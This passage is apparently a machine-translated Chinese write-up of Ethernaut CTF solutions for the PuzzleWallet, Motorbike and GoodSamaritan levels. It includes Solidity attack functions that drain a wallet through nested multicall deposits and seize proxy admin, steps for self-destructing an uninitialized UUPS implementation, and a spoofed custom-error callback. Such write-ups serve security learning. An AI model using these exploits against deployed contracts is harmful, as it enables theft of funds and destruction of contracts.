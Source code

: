 3.首先你调用`proposeNewAdmin`，这将改变`PuzzleProxy`的`pendingAdmin`和`PuzzleWallet`的`owner`

4.现在你是`PuzzleWallet`的所有者，可以打电话给`addToWhitelist`，在这里添加你的合同地址或你的 EOA。

5.要更改`PuzzleProxy`的`admin`的所有者，我们必须在`PuzzleWallet`上更改`maxBalance`，但是要调用`setMaxBalance`我们必须以某种方式耗尽合同余额。我们可以通过提供嵌套的`multicall`数组来调用`PuzzleWallet`中的`multicall`来绕过`deposit`检查。这样我们可以只提供`0.001 eth`而记录为`0.002 eth`。

6.通过调用`execute`和`setMaxBalance`清空余额。

```
function attack() external payable {
        //creating encoded function data
        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector);
        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(
            wallet.multicall.selector,
            depositSelector
        );
//calling multicall with nested data stored above, value set to 0.001 eth
        wallet.multicall{value: msg.value}(nestedMulticall);
        //calling execute to drain the contract
        wallet.execute(msg.sender, 0.002 ether, "");
        //calling setMaxBalance with our address to become the admin of proxy
        wallet.setMaxBalance(uint256(uint160(msg.sender)));
        //making sure our exploit worked
    }
```

**#25 摩托车解决方案**

1.  要解决这个问题，您必须了解 UUPS 代理升级模式、eip1967 和可初始化的契约
2.  我们可以看到`Engine`有可初始化的函数，其行为类似于可升级模式的构造函数，但它是从`Motorbike`上下文中调用的(delegatecall 行为)。所以如果能找到`Engine`合同地址，直接调用`initialize`就可以了。
3.  然后我们可以使用实现地址直接调用`upgradeToAndCall`并指向有`selfdestruct`的恶意契约，它将使用`delegatecall`调用并销毁`Engine`契约。

**#26 GoodSamaritan 解决方案**

1.  看看这个关于自定义错误的解释:[https://blog.soliditylang.org/2021/04/21/custom-errors/](https://blog.soliditylang.org/2021/04/21/custom-errors/)

```
*Please be careful when using error data since its origin is not tracked. 
The error data by default bubbles up through the chain of external calls, 
which means that a contract may forward an error not defined in any of 
the contracts it calls directly. Furthermore, any contract can fake any
 error by returning data that matches an error signature, even if the error
 is not defined anywhere.*
```

2.当调用来自`Coin`的`transfer`函数时，我们可以滥用在`requestDonation`函数中的这种自定义错误检查，因为如果`_dest`参数是契约，它会通知回调。

```
function attack() external {
        gs.requestDonation();
    }

function notify(uint256 amount) external {
        if (amount <= 10) {
            revert NotEnoughBalance();
        }
    }
```
